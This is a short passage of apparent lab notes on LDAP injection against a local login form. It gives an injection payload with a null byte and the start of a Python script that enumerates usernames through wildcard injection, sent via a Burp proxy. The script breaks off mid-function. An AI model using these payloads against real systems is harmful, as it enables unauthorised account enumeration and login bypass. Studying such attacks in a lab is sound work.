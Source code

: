 and the same with the rest of attributes:

````bash
user_id=txhaka)(mail=t*))%00&password=*&login=1&submit=Submit
````

---

# Script


````python
#!/usr/bin/python3

import requests
import time
import sys
import signal
import string
import pdb

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... [!]\n")
    sys.exit(1)

#ctrl_c
signal.signal(signal.SIGINT, def_handler)

# Global variables

main_url = "http://localhost:8888"
burp = {'http':'http://127.0.0.1:8080'}

def getInitialUsers():
    characters = string.ascii_lowercase

    initial_users = []

    headers = {'Content-Type':'application/x-www-form-urlencoded'}

    for character in characters:
        
        post_data = "user_id={}*&password=*&login=1&submit=Submit" .format(character)

        r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False, proxies=burp)

        if r.status_code == 301:
            initial_users.append(character)
    
    return initial_users

def getUsers(initial_users):
    
    characters = string.ascii_lowercase

    headers = {'Content-Type':'application/x-www-form-urlencoded'}
    valid_users = []

    for first_character in initial_users:
        
        user = ""

````